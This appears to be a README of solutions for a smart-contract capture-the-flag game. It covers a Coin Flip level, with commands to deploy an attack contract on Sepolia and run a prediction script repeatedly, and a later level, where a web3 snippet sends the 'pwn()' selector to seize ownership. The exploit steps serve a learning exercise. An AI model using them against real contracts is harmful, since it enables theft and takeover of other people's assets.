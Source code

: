 ## 3 Coin Flip

Deploy the attack contract contract:

```
yarn hardhat ignition deploy ignition/modules/03CoinFlip.ts --network sepolia
```

Pick the adders of the contract, then go to the file .env there put the adderss of the contract of the chalenge in the variable
ADDRS_COINFLIP_OG and the adderss of the contract that you deploy before in the variable ADDRS_COINFLIP_ATTACK, afther this run the
scrip bellow 10 times;

```
yarn hardhat run src/03-coin-flip.ts
```

Finaly submit the answer

## 4

## 6

```
var pwned = web3.utils.keccak256("pwn()")

contract.sendTransaction({data:pwned})
```
